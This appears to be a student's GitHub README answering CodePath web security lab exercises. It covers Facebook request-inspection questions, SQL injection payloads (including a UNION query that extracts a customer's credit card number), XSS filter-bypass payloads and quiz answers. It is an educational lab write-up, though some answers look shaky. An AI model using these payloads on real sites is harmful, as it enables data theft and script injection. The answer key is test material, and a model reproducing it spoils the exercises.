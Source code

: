 # Web-Securities-Labs
codepath Web Securities labs

## Week 1
Insecure Direct Object Reference:
1) Go to https://facebook.com. What is the Cache-Control header set to in the response? Enter as a comma-delimited list below. Order doesn't matter, and values are case insensitive. 
``` private, no-cache, no-store, must-revalidate ```

2) What is the URI for liking a Facebook post on your homepage? Hint: https://www.quora.com/What-does-Facebook-refer-to-as-UFI
``` /ufi/reaction/?dpr=1 ```

3) When posting your status to Facebook, which query parameter contains the text of your message? Hint: Make sure you're not filtering out URIs like: ajax/updatestatus 
``` xhpc_message_text ```

## Week 2
SQL injections:
1) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key.

Please enter the Customer Id of the user that you want to look up: 
``` SELECT * FROM customers WHERE customerId ="1" OR '1' = '1'; -- ";```

2) To complete this challenge, you must exploit the SQL injection flaw in the following form to find the result key.

Please enter the Customer Email of the user that you want to look up:
``` SELECT * FROM customers WHERE customerEmail ="samman@gmail.com' OR '1' = '1'; -- "@gmail.com ```

3) To complete this challenge, you must exploit SQL injection flaw in the following form to find the result key. The developer of this level has attempted to stop SQL Injection attacks by escaping apostrophes so the database interpreter will know not to pay attention to user submitted apostrophes.
```SELECT * FROM customers WHERE customerId ="2\' OR 1 = 1;-- "; ```

4) To complete this challenge, you must exploit a SQL injection issue in the following sub application to acquire the credit card number from one of the customers that has a customer name of Mary Martin. Mary's credit card number is the result key to this challenge.
``` SELECT customerName from customers where customerName='Mary MArtin' Union select CreditCardNumber from customers where customerName="mary martin"; # ```

## Week 3
Cross Site Scripting One

1) Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONERROR="alert('XSS')"/>```

2)  Find a XSS vulnerability in the following form. It would appear that your input is been filtered!
Please enter the Search Term that you want to look up 
```<IMG SRC="#" ONMESSAGE="alert('XSS')"/>```

3) In this one, the developer is completely removing the handler name. 
``` <SCRonmessageIPT>alert('XSS')</SCRonmessageIPT> ```

4) Demonstrate a XSS vulnerability in the following form by executing a JavaScript alert command. The developers had heard that escaping is a better way of fixing XSS issues but they were not totally clear on how to implement it.

Please enter the URL that you wish to post to your public profile;
``` http://www.google.com" oNmessage=alert()> ```

## Week 12

Question answers:

1. Name of a database of information-security vulnerabilities maintained with funding from the US government. Identifiers for this database are a popular way to reference vulnerabilities (1 word, acronym):
> CVE

2. What is the name of a large network of compromised machines?
> botnet

3. What is the name of the hacking technique often used to acquire sensitive information such as usernames, passwords, and credit card details (and sometimes, indirectly, money) by masquerading as a trustworthy entity in an electronic communication? 
> Phising

4. V arire zvff n orng
> rot13

5. What TCP port does the HTTP protocol commonly use?
> 80


6. What is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application? (three words)
> Command injection (not working right now)

7. What TCP port does HTTPS commonly use?
> 443
